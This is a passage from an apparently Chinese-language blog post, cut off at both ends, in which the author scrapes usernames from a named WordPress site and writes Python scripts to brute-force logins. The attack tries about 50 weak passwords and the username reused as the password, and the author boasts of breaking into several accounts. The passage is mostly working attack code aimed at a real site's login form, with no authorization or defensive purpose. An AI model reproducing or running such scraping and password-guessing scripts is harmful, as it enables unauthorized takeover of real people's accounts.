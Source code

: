 ````
    else:
        url = 'http://sstushu.net/page/' + str(i)
    html = gethtml(url)                     #解析网页
    urls = re.findall('<a href="(.*?)" class="zoom" rel="bookmark"', html)
    for each in urls:  
        for each2 in re.findall('<strong>(.*?)</strong>:', gethtml(each)): #获取用户名
            f = open('yonghu.txt', 'a+', encoding='utf-8')
            f.write(each2)
            f.write('\n')
            f.close()



````

我的天，好家伙哦这个小站跑出了1000多的用户名，出去其中重复的用户名，那也得有600多啊！这个可是一个如此丰富的资源。看看他们注册的用户名，大都是随手输入的帐号，有的类似于qq号，有的是手机号。也有随手的一段字符。折这么多我想着要不要去重一下。

````
# with open('.\\passwd.txt', 'r')as f:
#     for i in f:
#         # print(i)
#         with open('.\\passwd.txt', 'r')as g:
#             a = 0
#             for j in g:
#                 # print(j)
#                 if i == j:
#                     a += 1
#                     if a ==2:
#                         print(i)
````
这样就舒服多了。这么多的帐号，又是随手输入，就用弱口令跑一跑，肯定不会多难。来，在写个post的脚本，把账户和密码模拟浏览器输入进去。登录成功的就保存在一个txt文档中。

### 找到密码

对了，在最开始测试的时候，找取**部分**用户名，我的用户名放在前后保证能看到好的结束，我的密码也加入到爆破的字典中。第一次跑，发现并没有跑出来太多，也就一点点吧。试了试都能上。但是我有这么大的帐号源，就跑出来这几个，就有点亏了吧！难道是我的字典太小了？也不至于啊。50个常用密码对付这米有安全意识的密码，还不算拿不出手啊！

忘了最重要的一点。要是我注册一个网站，不会也输入一个额外的密码，就直接用户名和帐号一起使用了。哦！更新代码……


````
#http://sstushu.net/%e7%99%bb%e5%bd%95
import re
import requests
def baopo(i,j):
    url = 'http://sstushu.net/%e7%99%bb%e5%bd%95'
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0',
        'Referer': 'http://sstushu.net/%e7%99%bb%e5%bd%95?loggedout=true'     #网站打码
    }
    data = {
        'log': i,
        'pwd': j,
        'wp-submit': '登录',
        'redirect_to': '',
        'wpuf_login': 'true',
        'action': 'login',
        '_wpnonce': '4b4e82f670',
        '_wp_http_referer': '/%e7%99%bb%e5%bd%95?loggedout=true'
    }
    a = requests.post(url, headers=headers, data=data)
    # print(a)
    print(a.history)
    if a.history == []:
````